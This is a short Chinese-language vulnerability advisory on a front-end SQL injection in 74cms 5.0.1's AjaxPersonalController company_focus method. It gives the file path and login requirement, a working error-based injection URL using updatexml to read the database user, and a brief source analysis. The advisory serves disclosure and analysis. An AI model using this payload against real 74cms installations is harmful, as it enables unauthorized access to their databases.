 # 74cms v5.0.1 前台sql注入

## 漏洞简介

74cms 5.0.1 前台AjaxPersonalController.class.php存在SQL注入

## 复现过程

**具体信息**

文件位置：`74cms\upload\Application\Home\Controller\AjaxPersonalController.class.php`

方法：`function company_focus($company_id)`

是否需登录：需要

登录权限：普通用户即可

**Payload:**

`http://url/74cms/5.0.1/upload/index.php?m=&c=AjaxPersonal&a=company_focus&company_id[0]=match&company_id[1][0]=aaaaaaa%22) and updatexml(1,concat(0x7e,(select user())),0) -- a`

![](images/15889202892931.png)


**源码分析：**

文件：`74cms\upload\Application\Home\Controller\AjaxPersonalController.class.php`

company_focus 方法是参数化函数，$company_id参数是不经过I函数过滤的，所以只要where可以控制，那就可以注入

![](images/15889203066024.png)

跟踪add_focus(),发现SQL语句参数外部都可以控制，导致了注入漏洞

![](images/15889203159409.png)
